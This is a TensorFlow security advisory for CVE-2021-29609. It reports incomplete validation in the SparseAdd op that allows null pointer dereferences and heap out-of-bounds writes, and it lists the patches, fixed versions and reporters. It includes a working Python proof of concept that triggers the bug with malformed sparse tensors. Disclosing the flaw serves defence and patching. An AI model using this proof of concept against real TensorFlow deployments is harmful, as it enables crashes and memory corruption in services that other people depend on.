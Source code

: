 ## TFSA-2021-096: Incomplete validation in `SparseAdd`

### CVE Number
CVE-2021-29609

### Impact
Incomplete validation in `SparseAdd` results in allowing attackers to exploit
undefined behavior (dereferencing null pointers) as well as write outside of
bounds of heap allocated data:

```python
import tensorflow as tf

a_indices = tf.zeros([10, 97], dtype=tf.int64)
a_values = tf.zeros([10], dtype=tf.int64)
a_shape = tf.zeros([0], dtype=tf.int64)

b_indices = tf.zeros([0, 0], dtype=tf.int64)
b_values = tf.zeros([0], dtype=tf.int64)
b_shape = tf.zeros([0], dtype=tf.int64)

thresh = 0

tf.raw_ops.SparseAdd(a_indices=a_indices,
                    a_values=a_values,
                    a_shape=a_shape,
                    b_indices=b_indices,
                    b_values=b_values,
                    b_shape=b_shape,
                    thresh=thresh)
```

The
[implementation](https://github.com/galeone/tensorflow/blob/656e7673b14acd7835dc778867f84916c6d1cac2/tensorflow/core/kernels/sparse_add_op.cc)
has a large set of validation for the two sparse tensor inputs (6 tensors in
total), but does not validate that the tensors are not empty or that the second
dimension of `*_indices` matches the size of corresponding `*_shape`. This
allows attackers to send tensor triples that represent invalid sparse tensors to
abuse code assumptions that are not protected by validation.

### Patches
We have patched the issue in GitHub commit
[6fd02f44810754ae7481838b6a67c5df7f909ca3](https://github.com/galeone/tensorflow/commit/6fd02f44810754ae7481838b6a67c5df7f909ca3)
followed by GitHub commit
[41727ff06111117bdf86b37db198217fd7a143cc](https://github.com/galeone/tensorflow/commit/41727ff06111117bdf86b37db198217fd7a143cc).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
